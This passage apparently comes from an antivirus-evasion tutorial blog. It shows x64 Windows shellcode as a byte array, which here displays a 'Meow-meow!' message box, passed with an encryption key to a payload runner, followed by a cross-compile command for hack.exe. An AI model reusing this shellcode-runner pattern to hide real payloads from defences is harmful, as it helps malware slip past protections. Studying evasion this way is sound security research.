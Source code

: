 ```cpp
    0x52, 0x20, 0x3e, 0x48, 0x8b, 0x72, 0x50, 0x3e, 0x48, 0xf, 0xb7, 0x4a,
    0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 0x61, 0x7c, 0x2,
    0x2c, 0x20, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0xe2, 0xed, 0x52,
    0x41, 0x51, 0x3e, 0x48, 0x8b, 0x52, 0x20, 0x3e, 0x8b, 0x42, 0x3c, 0x48,
    0x1, 0xd0, 0x3e, 0x8b, 0x80, 0x88, 0x0, 0x0, 0x0, 0x48, 0x85, 0xc0,
    0x74, 0x6f, 0x48, 0x1, 0xd0, 0x50, 0x3e, 0x8b, 0x48, 0x18, 0x3e, 0x44,
    0x8b, 0x40, 0x20, 0x49, 0x1, 0xd0, 0xe3, 0x5c, 0x48, 0xff, 0xc9, 0x3e,
    0x41, 0x8b, 0x34, 0x88, 0x48, 0x1, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31,
    0xc0, 0xac, 0x41, 0xc1, 0xc9, 0xd, 0x41, 0x1, 0xc1, 0x38, 0xe0, 0x75,
    0xf1, 0x3e, 0x4c, 0x3, 0x4c, 0x24, 0x8, 0x45, 0x39, 0xd1, 0x75, 0xd6,
    0x58, 0x3e, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x1, 0xd0, 0x66, 0x3e, 0x41,
    0x8b, 0xc, 0x48, 0x3e, 0x44, 0x8b, 0x40, 0x1c, 0x49, 0x1, 0xd0, 0x3e,
    0x41, 0x8b, 0x4, 0x88, 0x48, 0x1, 0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e,
    0x59, 0x5a, 0x41, 0x58, 0x41, 0x59, 0x41, 0x5a, 0x48, 0x83, 0xec, 0x20,
    0x41, 0x52, 0xff, 0xe0, 0x58, 0x41, 0x59, 0x5a, 0x3e, 0x48, 0x8b, 0x12,
    0xe9, 0x49, 0xff, 0xff, 0xff, 0x5d, 0x49, 0xc7, 0xc1, 0x0, 0x0, 0x0,
    0x0, 0x3e, 0x48, 0x8d, 0x95, 0xfe, 0x0, 0x0, 0x0, 0x3e, 0x4c, 0x8d,
    0x85, 0x9, 0x1, 0x0, 0x0, 0x48, 0x31, 0xc9, 0x41, 0xba, 0x45, 0x83,
    0x56, 0x7, 0xff, 0xd5, 0x48, 0x31, 0xc9, 0x41, 0xba, 0xf0, 0xb5, 0xa2,
    0x56, 0xff, 0xd5, 0x4d, 0x65, 0x6f, 0x77, 0x2d, 0x6d, 0x65, 0x6f, 0x77,
    0x21, 0x0, 0x3d, 0x5e, 0x2e, 0x2e, 0x5e, 0x3d, 0x0
  };
  size_t data_len = sizeof(data);

  uint32_t key = 0x01234567; // 32-bit encryption key

  run_payload(data, data_len, key);

  return 0;
}
```

Of course, this will look suspicious for antivirus solutions, but I'll still look at the result. Printing operations is just for checking correctness of implementation.          

### demo

Let's go see it in action.    

Compile it:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av-evasion](/assets/images/109/2023-10-23_08-09.png){:class="img-responsive"}      
